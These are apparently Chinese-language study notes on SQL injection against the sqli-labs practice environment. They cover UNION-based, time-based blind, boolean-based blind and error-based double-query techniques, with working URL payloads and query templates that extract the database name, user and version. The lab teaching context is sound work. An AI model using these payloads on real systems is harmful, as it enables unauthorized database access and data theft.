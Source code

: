 http://localhost/0/sqli-labs-master/Less-2/?id='0' UNION SELECT 1,CONCAT_WS(CHAR(32,58,32),user(),database(),version()),3--+

联合查询前面的语句不能输出正确结果（可以报错），不然联合查询结果无法显示



UNION 操作符用于合并两个或多个 SELECT 语句的结果集。

请注意，UNION 内部的每个 SELECT 语句必须拥有相同数量的列。列也必须拥有相似的数据类型。同时，每个 SELECT 语句中的列的顺序必须相同。

union select 的字段数要对且用逗号隔开
order by 前面不能报错


### 盲注
#### 基于时间的盲注

select if(判断语句,判断为true执行的语句,判断为false执行语句)


if(expr1,expr2,expr3)

如果 expr1 是TRUE (expr1 <> 0 and expr1 <> NULL)，则 IF()的返回值为expr2; 否则返回值则为 expr3。IF() 的返回值为数字值或字符串值，具体情况视其所在语境而定。

substr(str,a,b)
取str的第a个到第b个字符


当数据库名第一个字母的asci码等于115时，执行一次sleep（3）函数等待3秒。

http://localhost/sqli-labs-master/Less-9/?id=1' and if(ascii(substr(database(),1,1))=115,sleep(3),0) --+

**需要用and拼接语句**



#### 基于布尔型的盲注

我们通常采用下面的办法猜解字符串.
select length(databse()));
select substr(databse(),1,1);
select ascii(substr(database(),1,1));
select ascii(substr(database(),1,1))>N;
select ascii(substr(database(),1,1))=N;
select ascii(substr(database(),1,1))<N;


`http://localhost/sqli-labs-master/Less-8/?id=1' and length(database())=8--+`




### 报错双查询注入

`select count(*),concat_ws(':',([子查询],floor(rand()*2))) as a from [table_name] group by a;`

MYSQL语句中，参数为某函数计算的结果时，用括号包裹参数
括号包裹的内容会先进行计算
